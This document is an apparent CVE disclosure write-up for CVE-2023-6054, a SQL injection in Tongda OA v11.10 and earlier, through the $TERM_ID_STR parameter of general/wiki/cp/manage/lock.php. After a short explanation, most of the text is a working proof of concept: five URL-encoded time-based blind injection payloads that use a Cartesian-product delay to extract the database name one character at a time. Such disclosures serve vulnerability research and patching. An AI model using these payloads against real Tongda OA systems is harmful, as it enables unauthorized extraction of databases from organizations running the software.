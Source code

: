 CVE-2023-6054
Tongda OA has a front-end SQL injection vulnerability

version:v11.10 and below versions and v2017 version

Route: general/wiki/cp/manage/lock.php

There is an injected parameter: $TERM_ID_STR

The code here is very simple. When $TYPE==LOCK or UNLOCK, the parameter $TERM_ID_STR is directly connected to the SQL statement to cause SQL injection.
![image](https://github.com/TinkAnet/cve/assets/118334129/ccb82304-9491-4109-b25a-e67ef2d0c782)


2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/TinkAnet/cve/assets/118334129/3d63ff4e-e1e8-42dc-a2e4-cb9281ec66ff)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/d6d8ab14-ca96-4250-b285-347289be9295)

The third digit is the character _
```1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/e217d24a-ff2a-4720-80b6-75a9f8107ffb)

The fourth digit is the character o

```1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/b84f40ae-8d23-4fce-8778-404924076544)

The fifth digit is the character a

```1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/499745c3-077a-4709-86ea-7b8c9e8968f5)

